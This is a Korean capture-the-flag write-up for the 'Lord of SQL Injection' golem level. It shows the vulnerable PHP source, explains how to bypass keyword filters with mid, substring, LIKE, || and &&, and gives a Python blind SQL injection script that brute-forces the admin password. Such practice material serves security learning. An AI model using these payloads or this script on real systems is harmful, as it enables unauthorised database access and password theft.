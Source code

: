 ## Lord of SQL Injection No. 11- golem
## 문제 출제 의도
1. substr함수를 사용 불가한 상황에서 Blind SQL Injection이 가능한지 확인.
2. 대입연산자를 사용 불가한 상황에서 Blind SQL Injection이 가능한지 확인.
## 소스 코드 
~~~ 
<?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
    $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
    highlight_file(__FILE__); 
?>
~~~
## 분석 결론
+ 금지 문자, 문자열
    - Get 방식으로 받은 pw값에 'prob _ . ()중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
    - Get 방식으로 받은 pw값에 'or, and , substr( , =중 하나라도 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
+ 풀이 성공 조건
    - 입력한 pw와 데이터 베이스에서 받아 온 실제 pw가 같아야 한다.
## 문제 해결
0. 우회 기법
    - mid
        * substring 함수는 다음과 같은 형식을 취한다.
        ~~~
        mid(대상문자열, pos, len)
        ~~~
        * pos번째 문자에서 len 길이 만큼 우측에서 문자열을 반환하는 함수이다. 
    - like
        * like 구문은 다음과 같은 형식을 취한다.
        ~~~
        select * from table_name WHERE column_name LIKE pattern;
        ~~~
        * 대입연산자를 대체 할 수 있다.
1. Blind SQL Injection
    - 다음과 유사한 방법으로 pw값을 알 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    key = ""
    for i in range(1, 9):
        for j in range(48, 127):
            url = "http://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw="
            data = "' || id like 'admin' && substring(pw,1,{}) like '{}'#".format(str(i), key + chr(j))
            print(data)
            data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0") 
            re.add_header("Cookie", "PHPSESSID=6ckrsnfovcd74972o80ugmksb4")
            res = urllib.request.urlopen(re) 
            if str(res.read()).find("Hello admin") != -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ~~~
    - 이를 실행하면 "88e3137f"가 출력된다.
    - 이를 GET 방식으로 입력하면 문제가 해결된다.